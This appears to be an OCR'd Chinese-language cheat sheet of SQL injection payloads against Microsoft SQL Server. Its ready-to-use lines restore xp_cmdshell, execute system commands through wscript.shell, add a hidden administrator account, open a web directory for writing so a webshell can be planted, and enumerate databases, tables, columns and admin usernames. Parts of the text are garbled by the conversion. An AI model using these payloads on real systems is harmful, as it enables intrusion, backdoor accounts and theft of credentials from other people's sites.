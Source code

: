 看xp_cmdshell是否删除 
```
and 1=(SELECT count(*) FROM master.dbo.sysobjects WHERE xtype = X AND name = xp_cmdshell)--
```

xp_cmdshell被删除，恢复,支持绝对路径的恢复 
```
;EXEC master.dbo.sp_addextendedproc xp_cmdshell,xplog70.dll-- 
;EXEC master.dbo.sp_addextendedproc xp_cmdshell,c:\inetpub\wwwroot\xplog70.dll--
```

反向PING自己实验 
```
;use master;declare @s int;exec sp_oacreate "wscript.shell",@s out;exec sp_oamethod @s,"run",NULL,"cmd.exe /c ping 192.168.0.1";--
```

加帐号 
```
;DECLARE @shell INT EXEC SP_OACREATE wscript.shell,@shell OUTPUT EXEC SP_OAMETHOD @shell,run,null, C:\WINNT\system32\cmd.exe /c net user jiaoniang$Content$nbsp;1866574 /add--
```

创建一个虚拟目录E盘： 
```
;declare @o int exec sp_oacreate wscript.shell, @o out exec sp_oamethod @o,run, NULL, cscript.exe c：\inetpub\wwwroot\mkwebdir.vbs -w "默认Web站点" -v "e","e：\"--
```

访问属性：（配合写入一个webshell） 
```
declare @o int exec sp_oacreate wscript.shell, @o out exec sp_oamethod @o,run, NULL, cscript.exe c：\inetpub\wwwroot\chaccess.vbs -a w3svc/1/ROOT/e +browse
```
 


爆库 特殊技巧：:%5c=\ 或者把/和\ 修改%5提交 
```
and 0<>(select top 1 paths from newtable)--
```

得到库名（从1到5都是系统的id，6以上才可以判断） 
```
and 1=(select name from master.dbo.sysdatabases where dbid=7)-- 
and 0<>(select count(*) from master.dbo.sysdatabases where name>1 and dbid=6) 
```
依次提交 dbid = 7,8,9.... 得到更多的数据库名
```
and 0<>(select top 1 name from bbs.dbo.sysobjects where xtype=U) 暴到一个表 假设为 admin 
and 0<>(select top 1 name from bbs.dbo.sysobjects where xtype=U and name not in (Admin))
```

来得到其他的表。 
```
and 0<>(select count(*) from bbs.dbo.sysobjects where xtype=U and name=admin 
and uid>(str(id))) 暴到UID的数值假设为18779569 uid=id 
and 0<>(select top 1 name from bbs.dbo.syscolumns where id=18779569) 得到一个admin的一个字段,假设为user_id
and 0<>(select top 1 name from bbs.dbo.syscolumns where id=18779569 and name not in (id,...)) 来暴出其他的字段 
and 0<(select user_id from BBS.dbo.admin where username>1) 可以得到用户名
```
 